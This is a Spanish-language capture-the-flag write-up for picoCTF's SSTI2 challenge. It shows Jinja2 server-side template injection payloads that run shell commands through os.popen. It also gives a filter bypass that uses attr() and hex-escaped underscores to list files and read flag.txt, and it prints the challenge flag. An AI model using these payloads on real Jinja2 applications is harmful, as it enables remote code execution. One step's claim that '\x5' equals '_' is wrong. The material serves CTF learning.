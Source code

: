 
## Reto
### SSTI2

## Descripcion
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)

## Solucion
- Parece ser la misma pagina que en SSTI1
- dice ser que ya esta sanitizado entonces probremos primero con {{7 * 7}}
- nos da 49 entonces sigue siendo jinja2 y podemos usar inyecciones
- pero hay cadenas de caracteres prohibidas, si intentamos el mismo comando que en SSTI1:
```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}
```
- nos va a devolver el siguiente tecto
```
# Stop trying to break me >:(
```
- Jugando un poco descubri que `{{_}}` es una de las cadenas que prohibe y creo que usar puntos tambien esta prohibido
- entonces tenemos que usar diferentes notaciones para el servidor lo interprete como `_`
- uno de estos sera `\x5` que es igual a `_`
- despues de curar todo nos queda algo asi:
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
```
- cuando lo ponemos en la pagina vemos que efectivamente sobrepasamos su "filtro de seguridad" y podemos ver flag.txt
- finalmente cambiamos el `ls` de la ultima parte del comando por `cat flag.txt` y obtenemos la bandera: **# picoCTF{sst1_f1lt3r_byp4ss_6787c4d8}**

## Notas
- aunque entiendo la logica de lo que acabamod de hacer, no entiendo nada de jinja2


## Referencias
[SSTI2 (PicoCTF) - tobias are - Medium](https://medium.com/@vgqxjb/ssti2-picoctf-4caa7ac497c5)
[SSTI2 Write-up PicoCTF 2025 - mihasha - Medium](https://medium.com/@mihasha/ssti2-write-up-picoctf-2025-5fc53e2320ba)